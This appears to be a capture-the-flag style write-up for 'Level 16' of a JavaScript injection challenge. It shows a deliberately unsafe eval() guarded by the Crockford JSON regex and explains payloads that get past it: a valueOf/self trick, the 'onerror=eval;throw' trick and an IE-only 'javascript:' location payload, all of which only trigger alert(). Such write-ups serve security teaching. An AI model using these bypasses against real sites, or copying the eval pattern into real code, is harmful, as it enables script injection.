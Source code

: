 # Level 16:
```lang-javascript line-numbers 
function escape(text) {
  // *cough* not done

  var i = 0;
  window.the_easy_but_expensive_way_out = function() { alert(i++) };

// "A JSON text can be safely passed into JavaScript's eval() function
// (which compiles and executes a string) if all the characters not
// enclosed in strings are in the set of characters that form JSON
// tokens."

  if (!(/[^,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]/.test(
          text.replace(/"(\\.|[^"\\])*"/g, '')))) {
    try {
      var val = eval('(' + text + ')');
      console.log('' + val);
    } catch (_) {
      console.log('Crashed: '+_);
    }
  } else {
    console.log('Rejected.');
  }
}
```

This level is based on a real world filter described by [Stefano Di Paola](https://twitter.com/WisecWisec) in this [post](http://blog.mindedsecurity.com/2011/08/ye-olde-crockford-json-regexp-is.html)

If we study the regexp carefully we will see that the letter "s" is allowed since its within the "u-r" interval, that allows us to use the word "self" and with that we can craft a valid JSON payload.
The trick is that we will be adding "0" to our object so the JS engine will need to calculate the valueOf our object. So if we define the "valueOf" function as the "the_easy_but_expensive_way_out" global function, we will be able to invoke it during the arithmetic operation.
The problem is that it will alert "0" since "i" its initialized with "0", but we can do it twice to alert a "1".

Long Solution:
```lang-javascript line-numbers 
{"valueOf":self["the_easy_but_expensive_way_out"]}+0,{"valueOf":self["the_easy_but_expensive_way_out"]}
```

That is a nice trick to execute a function when parenthesis are not allowed. But there some more like [Gareth](https://twitter.com/garethheyes) famous one:

```lang-javascript line-numbers 
onerror=eval;throw['=1;alert\x281\x29']
```

You can get a shorter solution for IE only as explained by [Stefano Di Paola](https://twitter.com/WisecWisec) in his [post](http://blog.mindedsecurity.com/2011/08/ye-olde-crockford-json-regexp-is.html)

```lang-javascript line-numbers 
{"valueOf":self["location"],"toString":[]["join"],0:"javascript:alert(1)","length":1}
```

And thats all folks, thanks for reading!

